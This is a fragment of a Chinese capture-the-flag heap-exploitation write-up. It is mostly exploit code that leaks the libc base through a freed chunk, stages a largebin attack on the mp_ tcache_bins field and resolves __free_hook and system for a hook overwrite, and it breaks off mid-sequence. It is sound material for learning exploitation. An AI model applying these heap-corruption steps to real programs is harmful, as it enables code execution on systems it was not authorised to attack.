 ```plain
add(1,0x450,"\n")
add(2,0x450,"\n")

free(0)
recover(0)
show(0)

ru("Pwd is: ")
libc_base = (u64(r(8)) ^ key) - (0x7f4eed4e1b80-0x7f4eed2f5000) - 106
leak("base = ",libc_base)
```

将 chunk 0 放入 largebin 中

```plain
add(3,0x600,"\n")
```

Tcache Struct 劫持的准备：

```plain
mp_ = libc_base + 0x1EC280 
leak("mp_ = ",mp_)

#bins = mp_ + 80
#max = mp_ + 88
tcache_max_bins = mp_+80

free_hook =  libc_base+libc.sym["__free_hook"]
system =  libc_base+libc.sym["system"]
```

[![](assets/1700442753-d61aa81e373e98ba839b24cde1bb547f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185451-bb831a7c-8537-1.png)

```plain
free(2)
recover(2)
#将 chunk 2 放入 unsorted bin 中
```
